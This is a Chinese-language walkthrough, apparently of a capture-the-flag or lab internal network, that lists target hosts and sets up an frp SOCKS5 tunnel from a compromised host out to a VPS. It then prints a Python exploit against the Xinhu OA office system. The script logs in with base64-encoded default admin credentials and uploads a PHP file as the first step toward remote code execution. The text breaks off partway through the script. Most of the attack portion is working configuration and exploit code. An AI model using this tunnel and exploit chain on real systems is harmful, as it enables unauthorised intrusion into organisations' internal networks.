 该内网网段有四台主机，其中一台已被拿下，另外三台

```bash
172.22.1.2   DC 
172.22.1.21  MS17-010 
172.22.1.18  信呼OA
```

接下来先打信呼OA，我们接下来上传frp到主机上，让内网的流量转发出来。

### frp穿透

vps frps.ini

```ini
[common]
bind_port = 7000
```

‍

靶机 frpc.ini

```ini
[common]
server_addr = vps.ip
server_port = 7000

[socks5]
type = tcp
remote_port = 6000
plugin = socks5
```

‍

本地proxifier

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250112113155-pvmiqj8.png?imageSlim)​

### 信呼协同办公系统漏洞利用

现存漏洞可搜

[[代码审计]信呼协同办公系统2.2存在文件上传配合云处理函数组合拳RCE_信呼协同办公系统弱口令-CSDN博客](https://blog.csdn.net/solitudi/article/details/118675321)

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250112112154-0mlix75.png?imageSlim)​

利用exp：

```bash
import requests
session = requests.session()
url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'
data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}
r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'br+')})

```